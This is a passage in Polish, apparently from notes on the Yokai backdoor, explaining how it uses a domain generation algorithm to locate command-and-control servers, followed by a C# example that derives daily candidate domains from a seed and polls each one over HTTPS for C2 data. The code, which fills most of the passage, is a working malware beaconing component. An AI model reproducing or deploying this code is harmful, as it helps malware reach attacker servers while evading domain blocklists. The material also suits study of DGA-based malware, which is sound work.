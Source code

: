 - **Implementacja w Backdoorze Yokai:**
  - **Opis:** Backdoor Yokai wykorzystuje DGA do generowania listy potencjalnych domen C2. W zależności od dnia lub innego zmiennego parametru, backdoor generuje nową domenę, do której próbuje się połączyć.
  - **Przykład:**
    ```csharp
    using System;
    using System.Net.Http;
    using System.Threading.Tasks;

    public class YokaiC2
    {
        private static readonly string[] TLDs = { ".com", ".net", ".org", ".info", ".biz" };
        private static readonly string seed = "yokai";
        private static readonly HttpClient client = new HttpClient();

        public static string GenerateDomain(DateTime date, int index)
        {
            string domain = "";
            foreach (char c in seed)
            {
                domain += (char)(c + (date.Day + index) % 26);
            }
            return domain + TLDs[index % TLDs.Length];
        }

        public static async Task<string> ConnectToC2()
        {
            DateTime today = DateTime.UtcNow.Date;
            for (int i = 0; i < 100; i++)
            {
                string domain = GenerateDomain(today, i);
                string url = $"https://{domain}/c2";
                try
                {
                    HttpResponseMessage response = await client.GetAsync(url);
                    if (response.IsSuccessStatusCode)
                    {
                        string data = await response.Content.ReadAsStringAsync();
                        return data;
                    }
                }
                catch
                {
                    // Ignore failed attempts
                }
            }
            return null;
        }

        public static async Task Main()
        {
            string c2Data = await ConnectToC2();
            if (c2Data != null)
            {
                Console.WriteLine("Connected to C2");
                // Process received data
            }
            else
            {
                Console.WriteLine("C2 connection failed");
            }
        }
    }
    ```